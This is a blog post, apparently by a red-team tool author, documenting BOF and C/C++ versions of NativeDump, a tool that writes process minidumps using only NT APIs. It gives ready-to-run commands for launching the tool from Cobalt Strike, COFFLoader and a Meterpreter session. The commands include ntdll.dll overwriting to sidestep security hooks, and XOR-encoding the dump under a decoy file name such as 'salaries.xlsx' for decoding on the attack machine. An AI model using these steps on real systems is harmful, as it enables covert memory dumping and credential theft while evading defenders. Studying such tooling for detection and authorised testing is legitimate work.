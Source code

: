 ```yaml
---
layout: post
title: NativeDump update - BOF File and C/C++ ports
excerpt_separator: <!--more-->
---
```


Updating NativeDump and creating a BOF File for the first time.

<!--more-->


# NativeDump - "bof-flavour" branch

This branch implements the same functionality as the main branch using BOF files: 

- Minidump file generation using only NTAPIS
- Overwrite the Ntdll.dll library (Optional)
- XOR encoding (Optional)

You can execute the files using Cobalt Strike, TrustedSec's [COFFLoader](https://github.com/trustedsec/COFFLoader) or Meterpreter's [bofloader module](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-executebof-command.html).

-----------------------------------------

## Cobalt Strike

You can execute the BOF file after importing the aggressor script "nativedump.cna":

```
nativedump <OVERWRITE_TECHNIQUE> <FILENAME> <XOR_KEY>
``` 

The first argument is used for overwriting ntdll.dll:
- "disk": Using a DLL already on disk. The default path is "C:\Windows\System32\ntdll.dll".    
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. The default process is "c:\windows\system32\calc.exe".
  
![bof1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_BOF1.png)

It is also possible to encode the file with a custom XOR key:

![bof1b](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_BOF1b.png)

And then decode it using Decoder.exe in the attack machine:

```
Decoder.exe <INPUT_FILE> <OUTPUT_FILE> <XOR_KEY>
```

![c4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_C4.png)

-----------------------------------------

## COFFLoader

```
COFFLoader64.exe go nativedump_bof.o <OVERWRITE_TECHNIQUE> <FILENAME> <XOR_KEY>
```

![bof2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_BOF2.png)

The arguments must be generated using COFFLoader's [beacon_generate.py script](https://github.com/trustedsec/COFFLoader/blob/main/beacon_generate.py). If you want to use only the first argument the values are:
- "disk": Use the value 09000000050000006469736b00
- "knowndlls": Use the value 0e0000000a0000006b6e6f776e646c6c7300
- "debugproc": Use the value 0e0000000a000000646562756770726f6300
  
Example using the option "disk":

```
COFFLoader64.exe go nativedump_bof.o 09000000050000006469736b00
```

![bof3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_BOF3.png)

--------------------------------------

## Meterpreter's bofloader module

You can run BOF files in your Meterpreter session after loading the "bofloader" module. It is important to interact with the session with a timeout around 60 seconds, so the BOF can finish execution:

```
sessions -i <SESSION-ID> --timeout 60
load bofloader
execute_bof nativedump_bof.o --format-string zzz <OVERWRITE_TECHNIQUE> <FILENAME> <XOR_KEY>
```

![bof4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_BOF4.png)

--------------------------

<br>
<br>

# NativeDump - "c-flavour" branch

This branch implements the same functionality as the main branch using C/C++: 

- Minidump file generation using only NTAPIS
- Overwrite the Ntdll.dll library (Optional)
- XOR encoding (Optional)

```
NativeDump.exe <OVERWRITE_TECHNIQUE> <FILENAME> <XOR_KEY>
```

![c1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_C1.png)

You can use use an argument for overwriting the ntdll.dll library:
- "disk": Using a DLL already on disk. The default path is "C:\Windows\System32\ntdll.dll".
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. The default process is "c:\windows\system32\calc.exe"

![c2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_C2.png)

It is also possible to encode the file with a custom XOR key:

![c3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_C3.png)

And then decode it using Decoder.exe in the attack machine:

```
Decoder.exe salaries.xlsx file.dmp NativeDump2024
```

![c4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_C4.png)
